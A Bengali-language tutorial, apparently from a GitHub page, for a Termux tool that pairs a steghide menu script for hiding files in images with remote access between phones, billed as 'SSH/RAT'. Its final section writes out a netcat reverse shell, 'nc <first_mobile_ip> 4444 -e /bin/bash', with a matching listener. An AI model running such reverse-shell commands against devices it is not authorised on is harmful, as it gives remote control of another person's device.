 # photo_file_marge_spy

এটি যদি সম্পূর্ণভাবে **Termux** এর জন্য তৈরি করতে চান, তাহলে আমাদের কিছু প্রাথমিক কাজের দিকে নজর দিতে হবে। **Termux** একটি Linux-like পরিবেশ এবং এটি CLI (Command Line Interface) এর মাধ্যমে পরিচালিত হয়, যেখানে আপনি সহজে সিস্টেম কমান্ড রান করতে পারেন।

এখানে আপনার জন্য সম্পূর্ণ একটি **Termux টুল** তৈরি করা হবে যা **ফটোতে ফাইল লুকানো এবং বের করা** এবং **রিমোট এক্সেসের জন্য SSH বা রিভার্স শেল** ব্যবহারের জন্য কাজ করবে।

### টুলের ফিচার:

1. **ফটোতে ফাইল লুকানো এবং বের করা**: স্টেগানোগ্রাফি টুল ব্যবহার করে ফটোতে ফাইল লুকানো ও বের করার জন্য সরল ইন্টারফেস।
2. **রিমোট এক্সেস শেয়ারিং (SSH/RAT)**: SSH এর মাধ্যমে এক মোবাইলের Termux থেকে অন্য মোবাইলে এক্সেস পাঠানো।

এখানে আমরা **স্টেগানোগ্রাফি** (ফটোতে ফাইল লুকানো) এবং **রিভার্স শেল/SSH** এক্সেস সম্পর্কিত টুলটি প্রস্তুত করব।

### ১. Termux টুল সেটআপ:

এটি সম্পূর্ণ **Termux** এর মধ্যে কাজ করবে, তাই প্রথমে আপনার ডিভাইসে **Termux** ইনস্টল করতে হবে। 

**Termux** ইনস্টল না করা থাকলে:

```bash
pkg update
pkg upgrade
pkg install git
pkg install bash
```

### ২. ফটোতে ফাইল লুকানো ও বের করার জন্য স্ক্রিপ্ট:

আমরা `steghide` ব্যবহার করব, যা Termux-এ ইনস্টল করা যায় এবং ফটোতে ফাইল লুকানো ও বের করার কাজ করবে।

#### Step 1: `steghide` ইনস্টল করুন:

```bash
pkg install steghide
```

#### Step 2: স্ক্রিপ্ট তৈরি:

```bash
#!/bin/bash

clear
echo -e "\e[1;34m======================================="
echo -e "\e[1;36mTermux StegTool - Professional Version"
echo -e "\e[1;34m======================================="
echo -e "\e[0m"

# মেনু প্রদর্শন
echo -e "\e[1;33mWelcome to StegTool! Choose an option:"
echo -e "1. Hide a file inside an image"
echo -e "2. Extract a hidden file from an image"
echo -e "3. Exit"
echo -e "\e[0m"
echo -n "Please select an option (1/2/3): "

# অপশন ইনপুট
read option

# ফাইল লুকানোর জন্য অপশন 1
if [ "$option" -eq 1 ]; then
    echo -e "\n\e[1;32mYou chose to hide a file inside an image!\e[0m"
    echo -n "Enter the image file name (e.g., input.jpg): "
    read imgfile
    echo -n "Enter the file to hide (e.g., secret.txt): "
    read secretfile
    
    if [ -f "$imgfile" ] && [ -f "$secretfile" ]; then
        steghide embed -cf "$imgfile" -ef "$secretfile" > /dev/null 2>&1
        echo -e "\n\e[1;32mFile successfully hidden inside $imgfile!\e[0m"
    else
        echo -e "\n\e[1;31mError: One or both files do not exist. Please try again.\e[0m"
    fi

# ফাইল বের করার জন্য অপশন 2
elif [ "$option" -eq 2 ]; then
    echo -e "\n\e[1;32mYou chose to extract a hidden file from an image!\e[0m"
    echo -n "Enter the image file name (e.g., input.jpg): "
    read imgfile
    
    if [ -f "$imgfile" ]; then
        steghide extract -sf "$imgfile" > /dev/null 2>&1
        echo -e "\n\e[1;32mFile successfully extracted from $imgfile!\e[0m"
    else
        echo -e "\n\e[1;31mError: The image file does not exist. Please try again.\e[0m"
    fi

# অপশন 3: Exit
elif [ "$option" -eq 3 ]; then
    echo -e "\n\e[1;33mExiting StegTool. Goodbye!\e[0m"
    exit 0
else
    echo -e "\n\e[1;31mInvalid option selected. Please choose a valid option.\e[0m"
fi
```

#### স্ক্রিপ্টের ব্যাখ্যা:
- **স্টেগানোগ্রাফি (Steganography)**: এটি ছবির ভিতরে ফাইল লুকাতে এবং বের করতে সাহায্য করবে।
- **ব্যবহারকারী ইন্টারফেস**: CLI ইন্টারফেস সুন্দরভাবে ডিজাইন করা হয়েছে যাতে এটি দেখতে পরিষ্কার ও ব্যবহারযোগ্য হয়।

### ৩. রিভার্স শেল বা SSH এক্সেস:

#### রিভার্স শেল: 

এটি ব্যবহার করে আপনি এক মোবাইলের **Termux** থেকে অন্য মোবাইলের **Termux**-এ এক্সেস পাঠাতে পারবেন।

**প্রথম মোবাইলে (SSH server)**:

```bash
pkg install openssh
sshd
```

এটি SSH সার্ভার চালু করবে। এরপর আপনার **IP অ্যাড্রেস** নোট করুন:

```bash
ifconfig
```

#### দ্বিতীয় মোবাইলে (SSH client):

```bash
pkg install openssh
ssh username@<first_mobile_ip>
```

এখন দ্বিতীয় মোবাইল থেকে প্রথম মোবাইলের **Termux** তে এক্সেস চলে আসবে। আপনি এখানে ফাইল চালাতে বা অন্যান্য কাজ করতে পারবেন।

#### রিভার্স শেল:

প্রথম মোবাইলে `nc` ব্যবহার করে লিসেনিং চালু করুন:

```bash
nc -lvp 4444
```

এখন, দ্বিতীয় মোবাইলে নিচের কমান্ড ব্যবহার করে রিভার্স শেল চালান:

```bash
nc <first_mobile_ip> 4444 -e /bin/bash
```

এটি প্রথম মোবাইলের Termux থেকে দ্বিতীয় মোবাইলের Termux তে শেল এক্সেস প্রদান করবে।

---

### নিরাপত্তা ও ব্যবহার:
এই টুল শুধুমাত্র **শিক্ষামূলক উদ্দেশ্যে** তৈরি করা হয়েছে। আপনি যদি এটি ব্যবহার করেন, তাহলে আপনি অবশ্যই ব্যক্তিগত নিরাপত্তা এবং আইনি বিষয়গুলি মাথায় রাখবেন। অন্যদের ডিভাইসে অনুমতি ছাড়া এটি ব্যবহার না করার জন্য সতর্ক থাকুন।

এটি **Termux**-এ সম্পূর্ণভাবে কাজ করবে এবং আপনি আরও উন্নতি করতে পারবেন এতে নতুন ফিচার যেমন লগিং, ফাইল কাস্টমাইজেশন বা GUI ইন্টারফেস যোগ করতে।

